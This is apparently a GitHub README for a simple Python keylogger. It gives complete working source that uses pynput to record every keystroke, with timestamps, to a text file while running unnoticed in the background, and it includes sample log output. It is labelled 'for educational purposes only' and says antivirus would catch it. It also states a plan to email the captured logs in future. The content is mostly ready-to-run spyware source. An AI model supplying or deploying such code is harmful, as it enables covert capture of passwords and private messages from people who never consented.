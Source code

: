 # Keylogger

Simple Keylogger software

![](/Images/KeyLog_Image_file.png)


### Description of the Keylogger

A keylogger is used as malicious software used to record all the keystrokes in a user in hopes of using all the information recorded in the "KeyLog.txt"(or named any kind) file, for malicious intent
This keylogger software is made to get a copy of each keystroke of a user. The keystroke format is shown as a ".txt" file formatted as (TIME/DATE:KEYSTROKE).
This software is made for educational purposes only! Use it at your discretion.

*This software won't work in an attack because the computer antivirus already has a signature for this kind of code*


This is the keylogger file and code:
- [Keylogger](https://github.com/Yasha-Santos/Keylogger/blob/main/Keylogger.py)

```
"""
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
Author: Yaser Kassem

This is a simple keylogger program, this was made 
for educational purposes only!
hello
This is to show that even small code software have
great power
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
"""

# Before we start writting the code we must import the following tools in order to be able to perform our keylogigng
import pynput
import logging
from pynput.keyboard import Key, Listener

# Here you can add the directory you wish to save your log file 
log_dir = r"C:/Your/Wished/Directory"

# This log file will have all the keystrokes with the time it was typed, in the format as given below (TIME:MESSAGE)
logging.basicConfig(filename= (log_dir + r"/keyLog.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

# In this function it will take each key as a parameter, then this information will
# be logged in the "keyLog.txt"
def on_press(key):
    logging.info(str(key))

# Creating a listener instance and define the on-press method and join it
# with the main program thread
with Listener(on_press=on_press) as listener:
    listener.join()
```
*This code above contains comments on how it works, minimal explanation will be provided*

Basically what this code does is that it saves all the keystrokes of a user in a running environment, meaning that it is not a one-time use only as it uses a thread to maintain its "life", meaning that when this file is executed a user won't notice a difference but in the background, it will be using a single process to capture every possible keystrokes or combination.

This is a small example of what the keylogger will record.
- [Keylog.txt (Example file)](https://github.com/Yasha-Santos/Keylogger/blob/main/KeyLog.txt)

```
2024-03-07 20:54:38,074: 'h'
2024-03-07 20:54:38,244: 'e'
2024-03-07 20:54:38,883: 'l'
2024-03-07 20:54:39,029: 'l'
2024-03-07 20:54:39,314: 'o'
2024-03-07 20:55:06,618: Key.space
2024-03-07 20:55:06,815: 'w'
2024-03-07 20:55:07,999: 'o'
2024-03-07 20:55:08,227: 'r'
2024-03-07 20:55:09,462: 'l'
2024-03-07 20:55:09,767: 'd'
```

The keylogger can store more information in this file, as long as the user is writing this software will record every single keystroke. The file above is only an example of what the output will look like.


*This code is still being worked on. In the future this code will be able to send the keystrokes logs via email*
